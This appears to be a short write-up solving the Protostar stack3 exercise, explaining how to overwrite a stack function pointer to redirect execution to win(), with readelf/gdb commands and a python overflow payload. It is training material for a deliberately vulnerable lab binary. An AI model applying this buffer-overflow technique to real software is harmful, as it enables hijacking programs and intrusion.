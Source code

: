 ## Description

[Problem source](https://exploit-exercises.com/protostar/stack3/)


### Solution

This problem introduces function pointer, that lives on the stack. We want to
overwrite this variable in order to hijack the thread of execution. The function
that we want to run is the `win()` function. In order to see where in the memory
this function will live we can use either `readelf` or `gdb`.

	readelf -a ./stack3 | grep win

or
	info address win

inside gdb.

Anyway, the address of `win()` function is `0x8048424`. The arranegement of
variables on the stack is the same, so we can use the same formula for this
problem as well 64 bytes + desired value.
	
	python -c "print('a' * 64 + '\x24\x84\x04\x08')" | ./stack3
